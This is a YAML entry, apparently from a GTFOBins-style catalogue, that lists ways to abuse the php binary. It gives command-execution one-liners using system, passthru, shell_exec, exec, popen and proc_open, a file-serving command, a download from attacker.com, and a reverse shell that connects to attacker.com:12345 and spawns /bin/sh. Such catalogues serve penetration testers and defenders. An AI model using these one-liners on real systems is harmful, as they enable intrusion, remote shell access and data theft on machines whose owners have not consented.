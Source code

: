 ```yaml
---
functions:
  exec-non-interactive:
    - code: |
        export CMD="ls /"
        php -r 'system($_ENV["CMD"]);'
    - code: |
        export CMD="ls /"
        php -r 'passthru($_ENV["CMD"]);'
    - code: |
        export CMD="ls /"
        php -r 'print(shell_exec($_ENV["CMD"]));'
    - code: |
        export CMD="ls /"
        php -r '$r=array(); exec($_ENV["CMD"], $r); print(join(\"\\n\",$r));'
    - code: |
        export CMD="ls /"
        php -r '$h=@popen($_ENV["CMD"],"r"); if($h){ while(!feof($h)) echo(fread($h,4096)); pclose($h); }'
    - code: |
        export CMD="ls /"
        php -r '$p = array(array("pipe","r"),array("pipe","w"),array("pipe", "w"));$h = @proc_open($_ENV["CMD"], $p, $pipes);if($h&&$pipes){while(!feof($pipes[1])) echo(fread($pipes[1],4096));while(!feof($pipes[2])) echo(fread($pipes[2],4096));fclose($pipes[0]);fclose($pipes[1]);fclose($pipes[2]);proc_close($h);}'
  upload:
    - description: Serve files in the local folder running an HTTP server.
      code: |
        LHOST=0.0.0.0
        LPORT=8888
        php -S $LHOST:$LPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |-
        export URL=http://attacker.com/file_to_get
        export LFILE=where_to_save
        php -r '$c=file_get_contents($_ENV["URL"]);file_put_contents($_ENV["LFILE"], $c);'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        php -r '$sock=fsockopen($_ENV["RHOST"],$_ENV["RPORT"]);exec("/bin/sh -i <&3 >&3 2>&3");'
---
```

